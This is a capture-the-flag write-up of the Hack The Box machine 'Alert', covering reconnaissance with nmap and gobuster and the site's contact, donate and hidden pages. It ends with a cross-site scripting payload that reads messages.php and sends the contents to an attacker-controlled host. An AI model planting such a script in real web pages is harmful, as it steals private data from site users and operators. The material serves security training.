 # Alert

Today we are taking a stab at the currently live box "Alert"

```
$ sudo nmap -sV -sC 10.10.11.44

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 14:39 CET
Nmap scan report for 10.10.11.44
Host is up (0.012s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

We have just a pair of ports available:

- 22 running SSH
- 80 running Apache

If we open `http://10.10.11.44` in our browser, we'll be met with a "Page Not Found". Just as we can read in the `nmap` report, the Apache server issues a redirect to `alert.htb`. To make this work in our browser, we'll need to modify the `/etc/hosts` file. This is where the browser comes to "resolve" a hostname to an IP address before heading to the nearest DNS server if it ends up empty handed:

```
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.11.44 alert.htb
```

Now we should be able to visit the page in our browser:

![A page where you can upload markdown files](./images/viewer-browse-files.png)

Let's summarize what we have here:

- About Us
  ![The "About Us" page](./images/about-us.png)
- Contact Us
  ![The "Contact Us" page](./images/contact-us.png)
- Donate
  ![The "Donate" page](./images//donate.png)

The donate page has a single "number" input but it doesn't seem to do anything. But when you enter a email address and some text into the "Contact Us" form, the URL changes to `http://alert.htb/index.php?page=contact&status=Message%20sent%20successfully!`. A new query parameter `status` is added, which also appears on the page:

![the status messsage on the contact page after submitting the form](./images/a-new-status-appears.png)

We can modify this and it also changes on the page:

![modifying the parameter](./images/editing-the-status.png)

## More (hidden) pages

```
$ gobuster dir --url http://alert.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://alert.htb/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess (Status: 403) [Size: 274]
/.htpasswd (Status: 403) [Size: 274]
/.hta (Status: 403) [Size: 274]
/css (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/server-status (Status: 403) [Size: 274]
/uploads (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```

## Getting the messages

```js
<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.8:8000/?data=" + encodeURIComponent(data));
  });
</script>
```
